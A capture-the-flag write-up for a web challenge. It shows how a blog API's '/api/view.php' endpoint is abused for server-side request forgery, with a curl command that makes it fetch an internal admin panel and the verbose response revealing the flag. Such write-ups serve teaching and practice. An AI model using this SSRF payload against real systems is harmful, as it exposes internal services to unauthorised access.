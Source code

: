    In this web challenge,the website allows access to post.So,I viewed the source code and discovered a vulnerable code snippet in the api endpoint '/api/view' code.The main task in the challenge is to load a website that can't be accessed outside i.e if not connected to their network
The vulnerable code snippet is

  
    <script>
        const API_PATH = '/api/view.php';

        async function fetchPost(id) {
            const fetchResult = await fetch(API_PATH, {
                method: 'POST',
                cache: 'no-cache',
                headers: {
                    'Content-type': 'application/json'
                },
                body: JSON.stringify({ post: `file:///posts/${id}` })
            });

The api receives a request containing json data and uses the file:/// url to load post already saved with a user's id
The api endpoint code loads any url submitted to it without any form of restrictions and it makes it susceptible to Server side request forgery which occurs when a website is induced to load a particular url.
     
    curl https://ecorpblog.uctf.ir/api/view.php -v -X POST --header 'Content-Type:application/json' -d '{"post": "http://admin-panel.local/"}'

    ####RESPONSE#####
    * Using Stream ID: 1
    > POST /api/view.php HTTP/2
    > Host: ecorpblog.uctf.ir
    > User-Agent: curl/8.2.1
    > Accept: */*
    > Content-Type:application/json
    > Content-Length: 37
    * TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
    * TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
    * old SSL session ID is stale, removing
    < HTTP/2 200
    < date: Sun, 03 Sep 2023 13:33:41 GMT
    < content-type: application/json
    < content-length: 50
    < vary: Accept-Encoding
    < x-powered-by: PHP/7.2.34
    < x-xss-protection: 1; mode=block
    < server: ArvanCloud
    < x-sid: 4101
    < server-timing: total;dur=98
    < x-request-id: b72a53f22b5cf18d0b1bb14a5cf75106
    < accept-ranges: bytes
    <
    * Connection #1 to host ecorpblog.uctf.ir left intact
    {"status":"success","post":"uctf{4z174_1n_urm14}"}


